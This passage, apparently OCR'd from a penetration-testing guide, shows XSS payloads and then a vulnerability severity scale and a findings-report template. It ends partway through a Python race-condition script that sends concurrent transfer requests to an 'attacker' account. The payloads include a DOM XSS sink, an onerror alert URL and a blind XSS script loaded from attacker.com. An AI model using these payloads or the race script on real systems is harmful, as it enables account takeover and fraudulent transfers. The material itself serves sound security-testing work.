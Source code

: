 ```javascript
var payload = window.location.hash.substring(1);
document.getElementById('content').innerHTML = payload;
</script>
// URL: https://target.com/page#<img src=x onerror=alert('XSS')>

// Blind XSS with callback
<script src="https://attacker.com/blind.js"></script>
```

**Vulnerability Assessment Framework**:

**Severity Classification (CVSS-based)**:
- **Critical (9.0-10.0)**: RCE, authentication bypass, full system compromise
- **High (7.0-8.9)**: Privilege escalation, sensitive data exposure, SSRF with internal access
- **Medium (4.0-6.9)**: IDOR, XSS with session impact, information disclosure
- **Low (0.1-3.9)**: Self-XSS, minor information leakage, rate limiting bypass

**Exploitation Report Template**:

```markdown
## 🧠 Finding: [Vulnerability Title]
**🔍 Location:** [URL/Endpoint/Parameter]
**📊 Severity:** Critical/High/Medium
**🎯 CVSS Score:** [Score] ([Vector String])

### 📎 Evidence:
```http
[Exact HTTP Request/Response showing exploitation]
```

### 💥 Impact:
[Detailed description of what was achieved through exploitation]
- Data accessed: [Specific data types and quantities]
- Systems compromised: [Specific systems or accounts]
- Privilege level achieved: [User/Admin/System level access]
- Potential attack escalation: [Next steps an attacker could take]

### 🔗 Exploit Chain:
1. [Step-by-step exploitation process]
2. [Each step with technical details]
3. [Final impact demonstration]

### 💡 Remediation:
- **Immediate:** [Quick fixes to stop active exploitation]
- **Short-term:** [Proper security controls implementation]
- **Long-term:** [Architectural changes and security improvements]

### 🧪 Proof of Concept:
[Working exploit code or detailed reproduction steps]
```

**Advanced Testing Scenarios**:

**Race Condition Exploitation**:
```python
import threading
import requests

def exploit_race():
    # Simultaneous requests to exploit race condition
    url = "https://target.com/transfer"
    data = {"from": "user1", "to": "attacker", "amount": "1000"}
    
    threads = []
    for i in range(10):
```